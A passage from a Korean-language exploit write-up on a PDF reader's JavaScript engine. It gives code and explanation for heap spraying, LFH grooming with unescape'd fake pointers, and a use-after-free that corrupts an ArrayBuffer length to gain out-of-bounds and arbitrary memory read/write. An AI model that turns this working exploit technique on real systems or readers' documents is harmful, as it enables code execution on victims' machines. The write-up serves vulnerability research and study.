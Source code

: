 ```jsx
    for (var i = 0; i < 0x10; i++) {
        arrs[i] = new Array(1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 17, 18, 19, 20, 21, 22, 23, 24, 25, 20, 21, 22, 23, 24, 25, 20, 21, 22, 23, 24, 25, 20, 21, 22, 23, 24, 25, 20, 21, 22, 23, 24, 25, 20, 21, 22, 23);
        arrs[i][0] = 0x47484950;
        arrs[i][1] = targetStr;
        arrs[i][2] = targetDV;
        for (var k = 3; k < 5000; k++) {
            arrs[i][k] = 0x50515051;
        }
    }
}

console.println("[*] spraying array buffer...");

sprayArrBuffers();

console.println("[*] pre-populating LFH...");

groomLFH(68, 5000);

/*
Trigger the Bug
*/
```

`sprayArrBuffers`함수에서는 0xffe8 크기를 가지는 `ArrayBuffer`를 스프레이하는 것으로 0x20000048에 `ArrayBuffer`가 할당되게 만듭니다. 또한 `ArrayBuffer`에서 OOB Read/Write로 접근할 `Array`를 스프레이하여 인접한 주소에 할당하고 이는 추후에 임의 주소 읽기/쓰기에 사용됩니다.

스프레이되는 `ArrayBuffer`에는 `std::map<unsigned short,CAgg>::lower_bound`와  `std::map<unsigned short,CAgg>::insert`의 동작에 의해 length가 덮어 쓰이도록 페이로드를 구성합니다. 이후 `groomLFH` 함수에서 `String` 데이터 할당을 통해 힙 그루밍을 수행합니다. 이 문자열 데이터에는 `%u0058%u2000`이 포함되어 있고 `unescape`로 인해 fake `map`의 주소인 0x20000058로 변경됩니다. 

버그가 트리거된 이후 `groomLFH`에서 스프레이된 문자열이 변환된 `CAgg`오브젝트들은 다시 변환을 거치게 되는데 이때 문자열 데이터를 옮길 메모리를 할당합니다. brute-force로 알아낸 크기인 68로 힙 그루밍을 진행하면 이 과정에서 Use-After-Free가 발생하는 메모리를 재할당하여 fake `map`의 주소를 위치시킬 수 있습니다.

## 2. Out-of-Bounds Read/Write via Corrupted ArrayBuffer

length가 변조된 `ArrayBuffer`를 사용한 OOB Read/Write로 다른 오브젝트를 변조하여 추후에 Arbitrary Address Read/Write에 사용합니다. 이를 위해 아래의 코드를 통해 변조된 길이를 가지는 `ArrayBuffer`를 찾습니다.

```jsx
var arrStart = 0;
var corruptedTypedArr = null;

var originalTargetStrAddr = 0,
    originalTargetDVAddr = 0;

for (var i = 0; i < bufs.length; i++) {
    if (bufs[i].byteLength != ALLOC_SIZE) {
        console.println(
            "[+] corrupted array buffer found at " +
                i +
                " : length: " +
                bufs[i].byteLength +
                " : buf length: " +
                bufs.length
        );
        const uintArr = new Uint32Array(bufs[i]);

        console.println("[*] checking leaked global array...");

        for (var x = ((bufs.length - i) * 0xfff8) / 4; x < uintArr.length; x++) {
            if (uintArr[x] == 0x47484950) {
                arrStart = x - 4;
```